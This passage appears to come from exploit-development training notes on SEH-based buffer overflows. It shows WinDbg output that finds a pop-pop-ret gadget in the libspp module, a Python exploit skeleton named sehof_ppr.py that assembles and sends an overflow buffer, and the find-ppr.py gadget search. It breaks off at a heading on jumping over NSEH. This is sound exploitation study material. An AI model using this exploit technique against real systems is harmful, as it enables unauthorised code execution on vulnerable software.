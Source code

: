 ```
0:012> $><C:\find-ppr.wds
0x101576c0
...
0:012> u 101576c0 L3
libspp!pcre_exec+0x16450:
101576c0 58              pop     eax
101576c1 5b              pop     ebx
101576c2 c3              ret
```

Update your script with the discovered value.

{% code title="sehof_ppr.py" %}
```python
#!/usr/bin/env python3

size = 6000

exp  = b''
exp += LE(0x101576c0)  # (PPR) pop eax; pop ebx; ret

filler = b'A' * 2499
junk   = b'C' * (size - len(filler + exp))

buf = filler + exp + junk
send(buf)
```
{% endcode %}



### PyKD

- [https://hshrzd.wordpress.com/2022/01/06/python-scripting-for-windbg-a-quick-introduction-to-pykd/](https://hshrzd.wordpress.com/2022/01/06/python-scripting-for-windbg-a-quick-introduction-to-pykd/)
- [https://jasonturley.xyz/install-pykd-in-windbg/](https://jasonturley.xyz/install-pykd-in-windbg/)
- [https://github.com/uf0o/PyKD](https://github.com/uf0o/PyKD)

Search with [find-ppr.py](https://github.com/epi052/osed-scripts/blob/main/find-ppr.py) by [@epi052](https://twitter.com/epi052):

```
0:012> .load pykd.dll
0:012> !py C:\OSED\find-ppr.py -m libspp -b 00
[+] searching libspp for pop r32; pop r32; ret
[+] BADCHARS: \x00
[OK] libspp::0x101576c0: pop eax; pop ebx; ret ; \xC0\x76\x15\x10
...
```




## 5. Short Jump over NSEH
